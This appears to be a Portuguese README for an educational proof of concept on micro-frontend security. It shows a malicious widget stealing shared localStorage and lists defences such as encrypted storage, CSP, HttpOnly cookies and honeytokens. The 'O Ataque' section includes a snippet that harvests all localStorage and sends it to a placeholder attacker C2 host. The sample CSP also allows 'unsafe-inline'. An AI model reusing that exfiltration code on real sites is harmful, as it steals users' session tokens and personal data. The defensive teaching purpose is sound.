

# 🔒 POC: Vulnerabilidades de Segurança em Micro-frontends

> **Demonstração interativa e educacional** de vulnerabilidades críticas em arquiteturas de micro-frontends e suas soluções práticas baseadas em defesa em profundidade.



## 📋 Sobre esta POC

Baseada no artigo **["Micro-frontends: O ponto fraco que ninguém viu"](https://hardened.com.br/blog/micro-frontends-o-ponto-fraco-que-ninguem-viu/)**, esta POC demonstra:

1. **O Problema**: Como micro-frontends compartilham o mesmo contexto de execução (window, localStorage) e como isso pode ser explorado
2. **O Ataque**: Exfiltração de dados sensíveis através de localStorage compartilhado em < 100ms usando `navigator.sendBeacon`
3. **As Soluções**: Implementação de 8 camadas de defesa em profundidade

## 🛡️ Camadas de Defesa Implementadas

### ✅ Camada 1: Proxy de Auditoria
- **Arquivo**: [`storage-audit.js`](public/storage-audit.js)
- Intercepta TODOS os acessos ao localStorage via JavaScript Proxy
- Whitelist de chaves benignas (theme, lang) para reduzir ruído
- Blacklist de chaves sensíveis (jwt, session_id) com prioridade alta
- Detecção de varredura completa (5+ acessos em < 1s)
- Detecção de honeytokens com alerta imediato
- Envio de telemetria via `sendBeacon` a cada 5s
- **Sealing**: `configurable: false` impede bypass

### ✅ Camada 2: SecureStorage (Criptografia Client-Side)
- **Arquivo**: [`secure-storage.js`](public/secure-storage.js)
- **AES-GCM** 256-bit para confidencialidade + integridade
- **PBKDF2** com 150.000 iterações para derivação de chave
- Salt aleatório de 128 bits por operação
- IV aleatório de 96 bits (nonce)
- Namespacing (`mfe_dashboard:`) para isolamento lógico
- Falha segura: retorna `null` em erro de decriptação
- Compatibilidade com modo legado (chave direta)

### ✅ Camada 3: BFF + HttpOnly Cookies
- **Arquivo**: [`server.js`](server.js) (rotas `/api/auth/*`)
- Token JWT armazenado em cookie HttpOnly (JavaScript não vê)
- `Secure: true` (apenas HTTPS em produção)
- `SameSite: Strict` (bloqueia CSRF)
- Sessões gerenciadas no servidor (15 min de expiração)
- Validação de sessão em `/api/auth/session`
- Logout seguro com `clearCookie`

### ✅ Camada 4: CSP (Content Security Policy)
- **Middleware**: [`server.js`](server.js)
- `script-src 'self' 'nonce-<RANDOM>'` - Bloqueia scripts inline sem nonce
- `frame-src 'none'` - Impede bypass via iframe
- `connect-src 'self'` - Limita destinos de fetch/sendBeacon
- `report-uri /api/csp-report` - Relatórios de violação
- Nonce aleatório por requisição (16 bytes)

### ✅ Camada 5: Honeytokens (Iscas)
- **Backend**: Rota `/api/honey` gera chaves únicas
- **Frontend**: Insere isca no localStorage após login
- Prefixo `honey-*` identifica isca
- Proxy detecta leitura e dispara alerta **crítico**
- Log imutável para análise forense
- Detecção de varredura automatizada (scripts "burros")

### ✅ Camada 6: sendBeacon Real
- **Arquivo**: [`mfe-widget.js`](public/mfe-widget.js)
- Substitui comentários por implementação real
- Usa `navigator.sendBeacon('/api/exfiltrate', payload)` 
- **Simple Request**: Não dispara preflight CORS
- Sobrevive ao `unload` da página
- Fallback para `fetch` com `mode: 'no-cors'`

### ✅ Camada 7: Detecção de Varredura
- **Arquivo**: [`storage-audit.js`](public/storage-audit.js)
- Conta acessos de leitura em janela de 1 segundo
- Threshold: 5+ leituras = suspeita de varredura
- Envia alerta via `/api/alert/scan`
- Log no servidor com timestamp e UserAgent

### ✅ Camada 8: Telemetria e Logs
- **Backend**: Rotas `/api/audit/*` e `/api/alert/*`
- Batch de eventos a cada 5s (evita sobrecarga)
- Logs estruturados com nível de severidade
- Console colorido no servidor para demonstração
- Pronto para integração com SIEM/WORM storage

## 🎯 Objetivos Educacionais

- ✅ Entender os riscos de segurança em arquiteturas de runtime integration
- ✅ Ver na prática como um widget malicioso pode exfiltrar dados via `sendBeacon`
- ✅ Conhecer técnicas de mitigação (SecureStorage, CSP, isolamento, auditoria)
- ✅ Compreender a importância da **defesa em profundidade**
- ✅ Implementar soluções práticas de criptografia e monitoramento no frontend
- ✅ Demonstrar integração de múltiplos frameworks (React + Vue) via Web Components

## ⚛️ Stack Tecnológica

| Componente | Framework | Build |
|------------|-----------|-------|
| MFE Dashboard | React 18 + TypeScript | Vite 5 |
| MFE Widget | Vue 3 + TypeScript | Vite 5 |
| Host App | Vanilla JS | - |
| Integração | Web Components + Shadow DOM | - |

## 🏗️ Arquitetura

```
┌─────────────────────────────────────────────────────────┐
│                    HOST APPLICATION                     │
│  (Orquestra o carregamento dos micro-frontends)         │
└────────────┬─────────────────────────┬──────────────────┘
             │                         │
             ▼                         ▼
    ┌────────────────┐        ┌──────────────────┐
    │   MFE 1        │        │   MFE 2          │
    │   Dashboard    │        │   Widget         │
    │   Financeiro   │        │   Publicitário   │
    └────────────────┘        └──────────────────┘
             │                         │
             └──────────┬──────────────┘
                        ▼
              ┌──────────────────┐
              │   localStorage   │
              │  (Compartilhado) │
              └──────────────────┘
```

## 🚀 Como Executar

### Pré-requisitos

- Node.js >= 16
- npm >= 8

### Instalação e Execução

```bash
# 1. Clone o repositório
git clone https://github.com/hardened-sh/pc-mfe-frontend.git
cd pc-mfe-frontend

# 2. Instale as dependências do servidor
npm install

# 3. Instale e compile os MFEs (React + Vue)
cd mfe-dashboard && npm install && npm run build && cd ..
cd mfe-widget && npm install && npm run build && cd ..

# 4. Inicie o servidor
npm run dev

# 5. Acesse no navegador
# React + Vue: http://localhost:3000
# Vanilla JS:  http://localhost:3000/vanilla
```

### Comandos Rápidos

```bash
# Build de todos os MFEs
npm run build:mfes

# Rodar apenas o servidor (após build)
npm run dev
```


## 🎮 Como Usar a Demonstração

### Modo 1: VULNERÁVEL (Demonstra o Ataque) ⚠️

1. Clique no botão **"⚠️ Modo Vulnerável"** (já ativo por padrão)
2. Observe o **MFE 1 - Dashboard Financeiro**:
   - Clique em "🔄 Simular Login"
   - Dados sensíveis (JWT, userId, email, etc.) são salvos no localStorage
3. Aguarde o **MFE 2 - Widget Publicitário** carregar
4. Observe o **Console de Segurança**:
   - 🚨 O widget varre TODO o localStorage
   - 🔴 Captura JWT, tokens, dados pessoais
   - 💀 Simula exfiltração para servidor atacante

**Resultado**: Todos os dados são comprometidos em < 100ms

### Modo 2: SEGURO (Demonstra a Defesa) 🛡️

1. Clique no botão **"🛡️ Modo Seguro"**
2. O Dashboard usa **SecureStorage** com criptografia AES-GCM
3. Dados são armazenados criptografados com namespace
4. O Widget **NÃO consegue** acessar os dados protegidos
5. Observe o console: ✅ Defesa efetiva

**Resultado**: Dados sensíveis permanecem protegidos


## 🔍 Detalhes Técnicos

### O Ataque (Modo Vulnerável)

```javascript
// Widget malicioso varre TODO o localStorage
const payload = {};
for (let i = 0; i < localStorage.length; i++) {
    const key = localStorage.key(i);
    payload[key] = localStorage.getItem(key);
}

// Exfiltra para servidor C2 (Command & Control)
fetch('https://c2.attacker.com/collect', {
    method: 'POST',
    mode: 'no-cors',
    body: JSON.stringify(payload)
});
```

**Por que funciona?**
- Todos os MFEs rodam no mesmo contexto (window)
- localStorage é compartilhado por todo o domínio
- Não há isolamento entre módulos
- Same-Origin Policy não protege contra scripts no mesmo domínio

### A Defesa (Modo Seguro)

**1. SecureStorage Wrapper**
```javascript
// Dados são criptografados antes de serem salvos
const secureStore = new SecureStorage('mfe_dashboard', CRYPTO_KEY);
await secureStore.setItem('jwt', token);

// Widget não consegue decriptar sem a chave
const stolen = localStorage.getItem('mfe_dashboard:jwt');
// → "q7wE9mK2x..." (blob criptografado inútil para o atacante)
```

**2. Características da Solução**
- ✅ **Criptografia**: AES-GCM de 256 bits
- ✅ **Namespacing**: Prefixos obrigatórios (ex: `mfe_dashboard:jwt`)
- ✅ **Isolamento**: Cada MFE tem sua própria chave
- ✅ **IV Aleatório**: Initialization Vector único por operação
- ✅ **Falha Segura**: Retorna null em caso de erro de decriptação

**3. Content Security Policy (CSP)**
```
Content-Security-Policy:
  default-src 'self';
  script-src 'self' 'unsafe-inline';
  connect-src 'self' https://api.meudominio.com;
  frame-ancestors 'none';
```

Bloqueia conexões não autorizadas, impedindo exfiltração para domínios externos.

## 📊 Comparação: Vulnerável vs Seguro

| Aspecto | Modo Vulnerável | Modo Seguro |
|---------|----------------|-------------|
| **Armazenamento** | `localStorage.setItem('jwt', token)` | `secureStore.setItem('jwt', token)` |
| **Formato dos dados** | Texto plano legível | Blob criptografado (AES-GCM) |
| **Namespace** | ❌ Nenhum | ✅ Prefixo obrigatório |
| **Acesso cruzado** | ✅ Qualquer script pode ler | ❌ Requer chave de decriptação |
| **Exfiltração** | 🔴 Sucesso (todos os dados) | ✅ Bloqueado (dados ilegíveis) |

## 🛡️ Boas Práticas Demonstradas

1. **Nunca confie no cliente**: Trate o frontend como perímetro hostil
2. **Criptografia sempre**: Dados sensíveis nunca em texto plano
3. **Namespacing rigoroso**: Isole dados por módulo/squad
4. **CSP estrito**: Controle origens permitidas
5. **Monitoramento**: Log acessos anômalos ao storage
6. **Chaves seguras**: Provisione via servidor, nunca hardcoded

## 🚨 Cenários de Risco Real

- **Supply Chain Attack**: Dependência npm comprometida
- **Insider Threat**: Dev malicioso em squad secundário
- **XSS em MFE**: Injeção de script em um módulo
- **Third-party Scripts**: Tag manager ou analytics maliciosos

## ⚖️ Licença

**MIT License** - Hardened | by Luan Rodrigues © 2026

**Uso Educacional**: Esta POC é destinada exclusivamente para fins educacionais e de conscientização sobre segurança.